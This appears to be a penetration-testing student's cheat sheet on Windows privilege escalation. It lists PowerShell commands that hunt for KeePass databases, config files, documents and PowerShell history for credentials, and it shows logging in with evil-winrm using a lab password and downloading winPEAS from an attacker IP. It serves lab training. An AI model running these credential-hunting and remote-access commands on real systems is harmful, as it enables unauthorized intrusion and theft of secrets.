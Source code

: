 ```
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```

Search for *.kdbx from root dir
```
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```

can also include multiple files, .ini and .txt are common for xampp

```
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

search for all documents
```
Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
```

info about a user
```
net user steve
```

Can use Runas if access to GUI.  If no access to GUI try RDP or Winrm
```
runas /user:backupadmin cmd
```

### Powershell Info
Get-History for basic history but this is often deleted

```
Get-History
```

Use PSReadline to get history file
```
(Get-PSReadlineOption).HistorySavePath
type C:\Users\dave\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

creating a PowerShell remoting session via WinRM in a bind shell like we used in this example can cause unexpected behavior

To avoid any issues, let's use evil-winrm12 to connect to CLIENTWK220 via WinRM from our Kali machine instead. 

```
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```
use `iwr` command in windows to download a remote file
```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
```
### Service Binary Hijacking
